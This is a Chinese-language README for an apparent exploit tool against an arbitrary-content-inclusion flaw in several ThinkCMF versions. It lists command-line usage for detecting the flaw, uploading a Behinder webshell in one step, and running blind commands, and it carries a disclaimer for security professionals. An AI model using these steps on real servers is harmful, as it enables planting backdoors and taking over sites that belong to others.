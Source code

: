 # 说明：

本工具适用于Thinkcmf任意内容包含漏洞，提供一般检测，一键上传冰蝎马，以及无回显命令执行功能。ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。

本工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。

# 适用版本：

ThinkCMF X1.6.0

ThinkCMF X2.1.0

ThinkCMF X2.2.0

ThinkCMF X2.2.1

ThinkCMF X2.2.2

ThinkCMF X2.2.3

ThinkCMF源码下载地址https://gitee.com/thinkcmf/ThinkCMFX/releases

# 使用说明:

### 显示帮助

python thinkcmf_exp.py -h 

### 检测漏洞是否存在

python thinkcmf_exp.py -u http://yourURL/

![](C:\Users\85793\Music\漏洞测试工具\ThinkCMF任意内容包含\检测漏洞.png)

### 上传冰蝎马

python thinkcmf_exp.py -u http://yourURL/ -p yourPassword

![上传冰蝎](C:\Users\85793\Music\漏洞测试工具\ThinkCMF任意内容包含\上传冰蝎.png)

<img src="C:\Users\85793\Music\漏洞测试工具\ThinkCMF任意内容包含\上传成功.png" alt="上传成功" style="zoom:50%;" />

### 无回显命令执行

python thinkcmf_exp.py -u http://yourURL/ -c yourCommand

![命令执行](C:\Users\85793\Music\漏洞测试工具\ThinkCMF任意内容包含\命令执行.png)

<img src="C:\Users\85793\Music\漏洞测试工具\ThinkCMF任意内容包含\执行成功.png" alt="执行成功" style="zoom:50%;" />